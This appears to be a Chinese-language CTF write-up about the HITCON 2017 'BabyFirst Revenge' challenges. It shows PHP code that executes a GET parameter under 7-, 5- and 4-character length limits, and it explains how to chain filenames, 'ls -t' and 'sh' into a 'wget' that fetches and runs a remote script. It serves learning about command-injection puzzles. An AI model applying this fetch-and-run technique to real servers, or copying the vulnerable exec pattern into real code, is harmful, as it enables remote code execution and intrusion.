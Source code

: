 ```yaml
---
title: the “*” in ubuntu
date: 2017-11-08 13:22:54
tags: [学习,记录]
categories: 
---
```


## 0x00.前言

最近，大佬们在讨论hitcon-ctf中几道有意思的题，小菜我从中观看表哥“表演”，惊叹其神乎其神的“刀法”。在此之前我们先看一个例子:

![16](http://myndtt.github.io/images/16.png)

上图中的“*”是不是很神奇！

<!-- more -->

## 0x01.记录



### 7位

```php
<?php
if(strlen($_GET[1])<8){
     echo shell_exec($_GET[1]);
}
?>
```

要说星号，得先从不久之前说起。之前，就有这么一道题。当时已经有很多大佬给出了解法：

https://leet2.com/archives/limited-7-character-command-to-getshell.html

我第一次看到这解法也是神乎其神，太厉害了。核心意思就是建立一些个文件，文件名字要特殊一些，这样当我们用“ls”或者“ls -t”命令时，控制台下面显示的将会是文件名字，当然指令不同，文件排序不同。

#### 第一步

例如如果我们能够建立名字分别如“ls”，“-t”，">q"的三个文件并且当用ls命令确实也是这样依次显示，则用ls >a命令时ls的输出就会到a中，看图：

![17](http://myndtt.github.io/images/17.png)

指令意思大致依次为：

```sh
1.建立文件名字为1的文件     >1
2.建立文件名字为2的文件     >2
3.将ls命令的结果保存至文件a中（如果此前没有文件a,则创造文件）   ls >a
4.查看文件a                                                 cat a
```

这样当我们创造出邪恶的文件名字，就会在文件比如a中存有特殊的指令（指令“sh a”就会执行a脚本，a文件中有指令当然要执行咯），那问题来了，我们要这些干什么呢？

#### 第二步

当然有用！当文件名依次是 "weget",  "xx.xx/x" 的时候，执行ls >q那么q文件中是不是就有了 weget xx.xx/x字符呢,然后再次执行sh q 就等于用weget指令从 xx.xx下载了x文件，此时文件x由自己控制，在该文件中可以是其他指令，再次sh x ，那么想要执行什么就可以执行什么了。

#### 注意

指令由文件名字联合而来，所以要在命令"ls"或者其他如ls -t 下，文件依次连起来正好是你的指令。一般来说，你的域名合适的话，可以用ls,不合适的话只能用ls -t 来将文件按照时间排序。因为我们创造文件先后可控则ls -t也可以控，可是ls -t 这个命令很长，比如对下面的5位的来说就...

### 5位

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

这就是该hitcon-ctf中的一道题，如果你以前做过上诉那道题，就知道大概方法了，只是长度的问题，并且要合理的利用好上诉的第一步从而产生类似“ls -t >x”(x为文件名字)指令。表哥们已经解释的很详细了。

https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2017/babyfirst-revenge

https://chybeta.github.io/2017/11/04/HITCON-CTF-2017-BabyFirst-Revenge-writeup/

## 0x02.学习

### 4位

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

当你还是用上诉的那个方法去做这题时，你会发现不可能，长度太有限，只有4位，创建文件都很难了。当没有很好的域名，那么必须要在第一步中创建出ls  -t >a命令 可是字符要求越来越短，等于说难度越来越高。所以回到刚开始的“*”,星号在linux中是文件通配符，用来匹配文件:

![18](http://myndtt.github.io/images/18.png)

https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py

按照表哥的writeup得，你会发现居然是这么神奇：

![20](http://myndtt.github.io/images/20.png)

神奇在恰好有"rev"这个反转指令，关键是指令其中有排序在字母r后面的字母v！

这里涉及到字符反转，因为确实要产生合理的文件顺序

![19](http://myndtt.github.io/images/19.png)

如上图不反转，”dir“后面接上”ls “不会达到效果，echo可以但是却超过长度。（要创建echo 指令”>echo“正好为5大于4），同是后面还需要>q，排序不一样了，也不行。

## 0x03.总结

做这类题很艺术，看似动尽心思，实则为平时积累和实力所致。感谢最后龙师兄的帮助，一语点醒。哈哈。